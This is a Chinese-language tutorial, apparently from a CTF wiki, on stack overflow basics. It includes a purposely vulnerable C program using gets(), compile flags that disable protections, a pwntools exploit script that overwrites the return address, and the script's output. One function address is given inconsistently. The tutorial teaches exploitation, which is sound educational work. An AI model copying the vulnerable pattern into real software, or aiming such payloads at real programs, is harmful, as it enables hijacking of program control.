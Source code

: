 # 栈溢出原理

## 介绍

栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致栈中与其相邻的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞(比如说，还有向堆中写，向bss段写)。而对于黑客来说，栈溢出漏洞轻则可以使得程序崩溃，重则可以使得攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是

- 程序必须向栈上写入数据。
- 写入的数据大小没有被良好地控制。

## 基本示例

最典型的栈溢出利用是覆盖程序的返回地址为攻击者所控制的地址，**当然需要确保这个地址的代码可以执行**。下面，我们举一个简单的例子：

```C
##include <stdio.h>
##include <string.h>
void success() { puts("You Hava already controlled it."); }
void vulnerable() {
  char s[12];
  gets(s);
  puts(s);
  return;
}
int main(int argc, char **argv) {
  vulnerable();
  return 0;
}
```

这个程序的主要目的读取一个字符串，并将其输出。**我们希望可以控制程序执行success函数。**

我们利用如下命令对齐进行编译

```shell
➜  stack-example gcc -m32 -fno-stack-protector -no-pie stack_example.c -o stack_example 
stack_example.c: In function ‘vulnerable’:
stack_example.c:6:3: warning: implicit declaration of function ‘gets’ [-Wimplicit-function-declaration]
   gets(s);
   ^
/tmp/ccPU8rRA.o：在函数‘vulnerable’中：
stack_example.c:(.text+0x27): 警告： the `gets' function is dangerous and should not be used.
```

可以看出gets本身是一个危险函数。而它因为其从不检查输入字符串的长度，而是以回车来判断是否输入结束，所以很容易可以导致栈溢出，

> 历史上，**莫里斯蠕虫**第一种蠕虫病毒就利用了gets这个危险函数实现了栈溢出。

此外，`-m32` 指的是生成32位程序； `-fno-stack-protector` 指的是不开启堆栈溢出保护，即不生成canary。此外，该程序并没有开启ASLR保护（Linux下对应PIE），这是为了更加方便地介绍栈溢出的基本利用方式。之后，我们利用IDA来反编译一下二进制程序并查看vulnerable函数 。可以看到

```C
int vulnerable()
{
  char s; // [sp+4h] [bp-14h]@1

  gets(&s);
  return puts(&s);
}
```

该字符串距离ebp的长度为0x14，那么相应的栈结构为

```text
                                           +-----------------+
                                           |     retaddr     |
                                           +-----------------+
                                           |     saved ebp   |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

并且，我们可以通过IDA获得success的地址，其地址为0x0804846B。

```asm
.text:0804843B success         proc near
.text:0804843B                 push    ebp
.text:0804843C                 mov     ebp, esp
.text:0804843E                 sub     esp, 8
.text:08048441                 sub     esp, 0Ch
.text:08048444                 push    offset s        ; "You Hava already controlled it."
.text:08048449                 call    _puts
.text:0804844E                 add     esp, 10h
.text:08048451                 nop
.text:08048452                 leave
.text:08048453                 retn
.text:08048453 success         endp
```

那么如果我们读取的字符串为

```
0x14*'a'+'bbbb'+success_addr
```

那么，由于gets会读到回车才算结束，所以我们可以直接读取所有的字符串，并且将saved ebp覆盖为bbbb，将retaddr覆盖为success_addr，即，此时的栈结构为

```text
                                           +-----------------+
                                           |    0x0804843B   |
                                           +-----------------+
                                           |       bbbb      |
                                    ebp--->+-----------------+
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                                           |                 |
                              s,ebp-0x14-->+-----------------+
```

但是需要注意的是，由于在计算机内存中，对应的每个值都是按照字节存储的。一般情况下都是采用小端存储，即0x0804843B的存储是如下结构

```text
\x3b\x84\x04\x08
```

但是，我们又不能直接在终端将这些字符给输入进去，在终端输入的时候\，x等也算一个单独的字符。。所以我们需要想办法将\x3b之类的作为一个字符输入进去。那么此时我们就需要使用一波pwntools了(关于如何安装以及基本用法，请自行github)，这里利用pwntools的代码如下：

```python
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x0804843b
## 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
print p32(success_addr)
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()
```

执行一波代码，可以得到

```shell
➜  stack-example python exp.py
[+] Starting local process './stack_example': pid 61936
;\x84\x0
[*] Switching to interactive mode
aaaaaaaaaaaaaaaaaaaabbbb;\x84\x0
You Hava already controlled it.
[*] Got EOF while reading in interactive
$ 
[*] Process './stack_example' stopped with exit code -11 (SIGSEGV) (pid 61936)
[*] Got EOF while sending in interactive
```

可以看到我们确实已经执行success函数。

## 小总结

上面的示例其实也展示了栈溢出中比较重要的几个步骤:

### 寻找危险函数

通过寻找危险函数，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。

常见的危险函数如下

-   输入
    -   gets，直接读取一行，忽略'\x00'
    -   scanf
    -   vscanf
-   输出
    -   sprintf
-   字符串
    -   strcpy，字符串复制，遇到'\x00'停止
    -   strcat，字符串拼接，遇到'\x00'停止
    -   bcopy

### 确定填充长度

这一部分主要是计算**我们所要操作的地址与我们所要覆盖的地址的距离**。常见的操作方法就是打开IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式

- 相对于栈基地址的的索引
- 相对应栈顶指针的索引
- 直接地址索引

其中相对于栈基地址的索引，可以直接通过查看EBP相对偏移获得；相对于栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种问题。通过绝对地址索引的，就相当于直接给定了地址。一般来说，我们会有如下的覆盖需求

- **覆盖函数返回地址**，这时候就是直接看EBP即可。
- **覆盖栈上某个变量的内容**，这时候就需要更加精细的计算了。
- **覆盖bss段某个变量的内容**。
- 等等

之所以我们想要覆盖某个地址，是因为我们想通过覆盖地址的方法来直接或者间接地控制程序执行流程。

**参考阅读**

[stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow)

http://bobao.360.cn/learning/detail/3694.html

